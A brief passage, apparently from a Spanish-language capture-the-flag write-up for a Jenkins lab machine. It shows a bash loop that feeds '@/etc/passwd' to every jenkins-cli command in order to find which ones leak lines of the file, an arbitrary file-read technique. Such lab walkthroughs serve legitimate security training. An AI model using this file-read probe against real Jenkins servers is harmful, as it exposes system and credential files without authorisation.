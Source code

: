 ![](../assets/images/Builder/Web3.png)
- De acuerdo al uso de estas instrucciones  puedo ver mas líneas a la hora de querer cargar un archivo, nos creamos un scrip en bahs para ver cuantas líneas me devuelve cada comando.
```ruby
 #!/usr/bin/bash
 
 
 for command in $(java -jar jenkins-cli.jar -s http://10.10.11.10:8080 2>&1 | grep -v "    " | xargs | tr ' ' '\n');do
 
   echo "[+] Para el comando $command: $(java -jar jenkins-cli.jar -s http://10.10.11.10:8080 $command @/etc/passwd 2>&1 | wc -l )";
  
 done
```